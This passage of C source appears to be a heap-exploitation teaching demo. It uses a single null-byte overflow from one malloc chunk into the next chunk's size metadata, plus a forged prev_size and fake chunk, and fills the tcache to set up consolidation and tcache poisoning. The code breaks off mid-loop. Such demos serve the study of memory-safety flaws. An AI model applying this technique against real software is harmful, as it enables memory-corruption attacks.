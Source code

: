 ```plain

    printf("Our fake chunk at %p looks like:\n", a);
    printf("prev_size (not used): %#lx\n", a[0]);
    printf("size: %#lx\n", a[1]);
    printf("fwd: %#lx\n", a[2]);
    printf("bck: %#lx\n", a[3]);

    printf("\nWe allocate 0x28 bytes for 'b'.\n"
           "This chunk will be used to overflow 'b' with a single null byte into the metadata of 'c'\n"
           "After this chunk is overlapped, it can be freed and used to launch a tcache poisoning attack.\n");
    uint8_t *b = (uint8_t *) malloc(0x28);
    printf("b: %p\n", b);

    int real_b_size = malloc_usable_size(b);
    printf("Since we want to overflow 'b', we need the 'real' size of 'b' after rounding: %#x\n", real_b_size);

    /* In this case it is easier if the chunk size attribute has a least significant byte with
     * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
     * the chunk includes the amount requested plus some amount required for the metadata. */
    printf("\nWe allocate 0xf8 bytes for 'c'.\n");
    uint8_t *c = (uint8_t *) malloc(0xf8);

    printf("c: %p\n", c);

    uint64_t* c_size_ptr = (uint64_t*)(c - 8);
    // This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit

    printf("\nc.size: %#lx\n", *c_size_ptr);
    printf("c.size is: (0x100) | prev_inuse = 0x101\n");

    printf("We overflow 'b' with a single null byte into the metadata of 'c'\n");
    b[real_b_size] = 0;
    printf("c.size: %#lx\n", *c_size_ptr);

    printf("It is easier if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");

    // Write a fake prev_size to the end of b
    printf("\nWe write a fake prev_size to the last %lu bytes of 'b' so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((c - sizeof(size_t) * 2) - (uint8_t*) a);
    printf("Our fake prev_size will be %p - %p = %#lx\n", c - sizeof(size_t) * 2, a, fake_size);
    *(size_t*) &b[real_b_size-sizeof(size_t)] = fake_size;

    // Change the fake chunk's size to reflect c's new prev_size
    printf("\nMake sure that our fake chunk's size is equal to c's new prev_size.\n");
    a[1] = fake_size;

    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", a[1]);

    // Now we fill the tcache before we free chunk 'c' to consolidate with our fake chunk
    printf("\nFill tcache.\n");
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
        x[i] = malloc(0xf8);
    }

    printf("Fill up tcache list.\n");
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
```